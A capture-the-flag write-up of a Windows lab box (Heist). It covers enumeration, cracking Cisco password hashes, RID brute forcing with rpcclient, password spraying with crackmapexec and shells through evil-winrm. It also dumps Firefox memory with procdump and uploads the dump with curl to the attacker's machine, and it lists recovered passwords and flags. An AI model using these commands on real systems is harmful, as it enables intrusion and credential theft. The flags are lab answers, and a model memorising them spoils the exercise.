

Discovery
Nmap
80/tcp open http Microsoft IIS httpd 10.0
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2023-08-15T15:48:13
|_ start_date: N/A
|_clock-skew: -1s
| smb2-security-mode:
| 311:
|_ Message signing enabled but not required
TRACEROUTE (using port 80/tcp)
HOP RTT ADDRESS
1 27.79 ms 10.10.14.1
2 27.87 ms 10.10.10.149Nessus
Critical PHP Unsupported Version Detection, RCE, … → 7.3.1
http://10.10.10.149/login.php shows a login page

- able to login as guest
- there is a file containing a config of a cisco router
content
version 12.2 no service pad service password-encryption ! isdn switch-type basic-5ess ! hostname ios-1 ! security passwords min-length 12 enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91 ! username rout3r password 7 0242114B0E143F015F5D1E161713 username admin privilege 15 password 7 02375012182C1A1D751618034F36415408 ! ! ip ssh authentication-retries 5 ip ssh version 2 ! ! router bgp 100 synchronization bgp log-neighbor-changes bgp dampening network 192.168.0.0Â mask 300.255.255.0 timers bgp 3 9 redistribute connected ! ip classless ip route 0.0.0.0 0.0.0.0 192.168.0.1 ! ! access-list 101 permit ip any any dialer-list 1 protocol ip list 101 ! no ip http server no ip http secure-server ! line vty 0 4 session-timeout 600 authorization exec SSH transport input ssh
Some cisco hashes:
secret : $1$pdQG$o8nrSzsGXeaduXrjlvKc91
→ Type 5 hash (essentially a 1,000 iteration of MD5 hash with salt)
rout3r : 0242114B0E143F015F5D1E161713
→ Type 7 hash (instant)
admin : 02375012182C1A1D751618034F36415408
→ Type 7 hash (instant)
Decrypting cisco hashes
Cisco Password Cracking and Decrypting Guide - InfosecMatter - This guide covers common Cisco password types (0, 4, 5, 7, 8 and 9) and provides instructions on how to decrypt then or crack them using Hashcat or John the Ripper
Decrypt commands:
.\hashcat.exe -m 500 -O -a 0 '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' .\rockyou.txt
python ciscot7.py -d -p 0242114B0E143F015F5D1E161713
python ciscot7.py -d -p 02375012182C1A1D751618034F36415408secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
rout3r:0242114B0E143F015F5D1E161713:$uperP@ssword
admin:02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
Getting access
- None of the creds from cisco config seem to work on SMB or WINRM
- Trying a way to enumerate more users
RPC
Active Directory Enumeration: RPCClient - Hacking Articles - In this article, we are going to focus on the enumeration of the Domain through the SMB and RPC channels. The tool that we will
rpcclient 10.10.10.149 -U hazard -W SUPPORTDESK --password='stealth1agent'output server info and tried to enum users
rpcclient $> srvinfo
10.10.10.149 Wk Sv NT SNT
platform_id : 500
os version : 10.0
server type : 0x9003
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $>Hazard:stealth1agent works, but can’t enumerate the users.
SIDs
rpcclient $> lsaenumsid
found 14 SIDs
S-1-5-90-0
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
S-1-5-80-0
S-1-5-6
S-1-5-32-568
S-1-5-32-559
S-1-5-32-555
S-1-5-32-551
S-1-5-32-545
S-1-5-32-544
S-1-5-20
S-1-5-19
S-1-1-0groups using lsaenumsid & lookupsids
Window Manager\Window Manager Group (5)
IIS APPPOOL\DefaultAppPool (5)
NT SERVICE\WdiServiceHost (5)
NT SERVICE\ALL SERVICES (5)
NT AUTHORITY\SERVICE (5)
BUILTIN\IIS_IUSRS (4)
BUILTIN\Performance Log Users (4)
BUILTIN\Remote Desktop Users (4)
BUILTIN\Backup Operators (4)
BUILTIN\Users (4)
BUILTIN\Administrators (4)
NT AUTHORITY\LOCAL SERVICE (5)
\Everyone (5)SID Hazard → S-1-5-21-4254423774-1266059056-3197185112-1008
Brute forcing RIDs
- remove last 4 numbers
#!/bin/bash
sid="S-1-5-21-4254423774-1266059056-3197185112"
for i in `seq 1000 1020`; d
rpcclient -U "hazard%stealth1agent" -c "lookupsids $sid-$i;quit" 10.10.10.149 | cut -d ' ' -f2
doneOutput Users
SUPPORTDESK\Chase
SUPPORTDESK\Jason
SUPPORTDESK\Hazard
SUPPORTDESK\supportCrackmapexec with new users and accs
crackmapexec winrm 10.10.10.149 -u Desktop/users.list -p Desktop/pass.list
WINRM 10.10.10.149 5985 SUPPORTDESK [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)Chase:Q4)sJu\Y8qz*A3?
evil winrm
evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'→ works!
Found flag in C:\Users\Chase\Desktop → b11c93412ba3cbc8e37d46283b104b83
Obtain Administrator
Winpeas
[+] Looking for Firefox DBs
[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
Firefox credentials file exists at C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db
[i] Run SharpWeb (https://github.com/djhohnstein/SharpWeb)
[+] Unattend Files
C:\Windows\Panther\Unattend.xml
<Password>*SENSITIVE*DATA*DELETED*</Password> <Enabled>true</Enabled> <Username>Administrator</Username> </AutoLogon> <UserAccounts> <LocalAccounts> <LocalAccount wcm:action="add"> <Password>*SENSITIVE*DATA*DELETED*</Password>Firefox creds
- Tried SharpWeb.exe for the firefox db (didnt work)
- Using SysInternalsSuite procdump
.\procdump64.exe -ma 4124 firefox.dmp # on kali start upload server python2 upload.py 8080 # upload (from victim) curl.exe -i -F file=@firefox.dmp http://10.10.14.5:8080 - Using strings to read .dmp
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=- this is the page from before, the creds work
- admin@support.htb:4dD!5}x/re8]FBuZ
Access as administrator
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
SMB 10.10.10.149 445 SUPPORTDESK [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB 10.10.10.149 445 SUPPORTDESK [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
┌──(kali㉿kali)-[~]
└─$ crackmapexec winrm 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
SMB 10.10.10.149 5985 SUPPORTDESK [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP 10.10.10.149 5985 SUPPORTDESK [*] http://10.10.10.149:5985/wsman
WINRM 10.10.10.149 5985 SUPPORTDESK [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'Found flag in C:\Users\Administrator\Desktop\root.txt → 10c52708a871ece63a39937799c65baf